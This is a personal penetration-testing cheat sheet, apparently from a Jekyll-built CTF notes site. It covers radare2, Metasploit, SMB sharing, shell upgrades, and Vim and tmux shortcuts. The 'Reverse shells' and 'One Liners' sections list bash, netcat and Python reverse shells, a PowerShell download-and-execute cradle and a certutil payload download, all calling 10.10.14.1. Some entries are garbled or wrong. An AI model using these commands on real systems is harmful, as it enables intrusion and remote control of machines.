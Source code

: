 ```yaml
---
layout: tips
title: Tips and Tricks
---
```


Radar2
=======
{% highlight bash%}
aaaa                                        :Analyse the binary
afl                                         :List all fonctions
aflj                                        :List all fonctions in Json
aflj:{}                                     :List all fonctions in Json but with better formating
pdf @ function                              :Show the fonction
rabin2 -i <binary>                          :List fonctions in a binary
rabin2 -qs <binary> | grep -ve imp -e ' 0 ' :List fonctions in a binary in an easier format
{% endhighlight %}
[Back to the top](#header)

Finding interesting locations
=============================
{% highlight bash%}
Writable files directories
find / -writable -type d 2>/dev/null
find / -perm -222 -type d 2>/dev/null
find / -perm -o w -type d 2>/dev/null
Executable folder
find / -perm -o x -type d 2>/dev/null
Writable and executable folders
find / \( -perm -o w -perm -o x \) -type d 2>/dev/null
By default on Linux:
/tmp
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
By default on Windows:
C:\Windows\Tasks 
C:\Windows\Temp 
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
{% endhighlight %}
[Back to the top](#header)

Metasploit
==========
Updates
{% highlight bash%}
searchsploit -u
apt  update ; apt install metasploit-framework
{% endhighlight %}
Searchsploit
{% highlight bash%}
searchsploit -m :copy exploit in pwn
searchsploit -e :examine exploit
searchsploit -p :print full path
{% endhighlight %}
Load exploit to msf
{% highlight bash%}
msf > loadpath /usr/share/metasploit-framework/modules/
or
mv exploit.rb ~/.msf4/modules/exploit/exploit.rb and msf > reload_all
{% endhighlight %}
sessions -l :list sessions
[Back to the top](#header)

Convert to UTF-16LE
===================
{% highlight bash%}
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | xxd | head -3
00000000: 4945 5828 4e65 772d 4f62 6a65 6374 204e  IEX(New-Object N
00000010: 6574 2e57 6562 436c 6965 6e74 292e 646f  et.WebClient).do
00000020: 776e 6c6f 6164 5374 7269 6e67 2827 6874  wnloadString('ht
root@kali:~# echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.1/shell.ps1')" | iconv -t UTF-16LE | xxd | head -3
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
{% endhighlight %}
[Back to the top](#header)

Setting up SMB server
=====================
{% highlight bash%}
root@kali:~/HTB/Json/smb# smbserver.py -username root -password password sharingiscaring $(pwd) -smb2support
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

On the windows side:
{% highlight bash%}
$pass= “password” | ConverTo-SecureString -AsPlainText -Force #need to be typed
$pass #to verify it is created
$cred = New-Object System.Management.Automation.PsCredential('root',$pass)
$cred #to verify it is created
New-PSDrive -name share -root \\10.10.14.1\sharingiscaring -Credential $cred -PSProvider "filesystem"
cd share:
.\winPEAS.exe cmd fast > winPEAS.exe
{% endhighlight %}
[Back to the top](#header)

One Liners
==========
Dowloading file via certutil
{% highlight bash%}
cmd.exe /C certutil  -split -urlcache -f http://10.10.14.1/evil.exe c:\Users\Admin\Desktop\notevil.exe
{% endhighlight %}
Nmap scan ran through searchsploit
{% highlight bash%}
nmap -p- -sV -oX new.xml 10.10.14.1; searchsploit --nmap new.xml
{% endhighlight %}
List al started services
{% highlight bash%}
cmd.exe /c wmic service where started=true get name, startname
{% endhighlight %}
Wfuzz
{% highlight bash%}
wfuzz -w /wordlist/directory-medium.txt --hc 404 http://testing.com/test.php?FUZZ=1
--hc 404 = exclude 404 response  
--hh 777 = exclude response with 777char  
For more details: [wfuzz][link15] 
{% endhighlight %}
Find all file in a directory and executing a command.
{% highlight bash%}
find . -type f -exec cat {} \;
{% endhighlight %}
Easy transfert
{% highlight bash%}
base64 -w 0 filetotransfert
echo "iOgogIG1haW4oKQo=" | base64 -d > filename
{% endhighlight %}
Looking for creds in the directory
{% highlight bash%}
Grabbing full word
grep -rnw ./ -e 'password' -e 'password' -e 'passwd'
Grabbing partial word
grep -rn ./ -e 'passwd'
{% endhighlight %}
Search for flag
{% highlight bash%}
find / -type f \( -name "root.txt" -o -name "user.txt" \) 2>/dev/nul
{% endhighlight %}
Untar
{% highlight bash%}
tar -xvf
{% endhighlight %}
Removing password from ssh
{% highlight bash%}
tar -xvf
{% endhighlight %}
[Back to the top](#header)

Reverse shells
================
{% highlight bash%}
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1
/bin/sh | nc 10.10.14.1 9001
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.14.1 9001 0/tmp/p
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}
[Back to the top](#header)

Creating Custom Wordlists
=========================
This can be easily achieved using [exrex][link13]:
{% highlight bash%}
python3 exrex.py "(winter|summer|spring|fall|autumn)20[12][678]" -o wordlist
{% endhighlight %}
[Cewl][link14] can also be used to automaticly generate a wordlist by scrapping a website:
{% highlight bash%}
cewl -d 0 https://www.testing.com/
{% endhighlight %}
[Back to the top](#header)

VIM shortcut
=============
{% highlight bash%}
gg            :beginning of the document
G             :end of the document
dd            :delete line
yy            :copy line
p             :paste
gg dG         :delete all
g g " + y G   :yank all line 
: % y +       :yank all line (shorter)
{% endhighlight %}
[Back to the top](#header)

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
  Ctrl + s      :Enable you to search 
                 (press enter to validate and n for next item)
  Ctrl + space  : Start selecting
  Ctrl + w      :Copy selection
  Ctrl + b + ]  :Paste the selection 
  q : Quit copy mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}
[Back to the top](#header)

Upgrading Simple Shells to Fully Interactive TTYs
=================================================
{% highlight python%}
python -c 'import pty; pty.spawn("/bin/bash")'
or
python3 -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

Then press CTRL+Z to return to your local shell

{% highlight bash%}
stty -a or (stty size)
stty raw -echo
{% endhighlight %}

Note the number of rows and columns before pressing fg to return to the box

{% highlight bash%}
export SHELL=bash
export TERM=xterm256-color
stty rows number_of_row columns number_of_columns
{% endhighlight %}

Enjoy!
[Back to the top](#header)

Finding non standard binaries 
==============================
{% highlight bash%}
for i in $(ls /sbin/*); do echo $i; done
for i in $(ls /sbin/*); do dpkg --search $i; done
for i in $(ls /sbin/*); do dpkg --search $i 1>/dev/null; done
{% endhighlight %}

To investigate on different location in the $PATH
[Back to the top](#header)

Interesting Links:
==================
- [jwt.io][link1]: Decode and edit jwt token
- [cyberchef][link3]: Decode and encode in multiple format
- [stackedit.io][link4]: Markdown editor
- [devhints.io][link5]: Jekyll dev ops tricks
- [jekyllrb.com][link6]: Jekyll tuto
- [PayloadsAllTheThings][link7]: Payload for everything
- [Netsec][link8]: Idea for future tutorials
- [Pentestmonkey][link9]: Reverse Shell Cheat Sheet
- [W3schools][link10]: Testing new layout
- [Jekyll Tags][link12]: For future reference
[Back to the top](#header)

[link1]:https://jwt.io/  
[link2]:http://jekyllrb.com
[link3]:https://gchq.github.io/CyberChef/
[link4]:https://stackedit.io/app#
[link5]:https://devhints.io/jekyll 
[link6]:https://jekyllrb.com/
[link7]:https://github.com/swisskyrepo/PayloadsAllTheThings
[link8]:https://netsec.ws/?p=376
[link9]:http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[link10]:https://www.w3schools.com/howto/tryit.asp?filename=tryhow_css_subnav
[link11]:https://github.com/infodox/python-pty-shells
[link12]:https://longqian.me/2017/02/09/github-jekyll-tag/
[link13]:https://github.com/asciimoo/exrex
[link14]:https://digi.ninja/projects/cewl.php
[link15]:https://wfuzz.readthedocs.io/en/latest/user/getting.html#getting-help
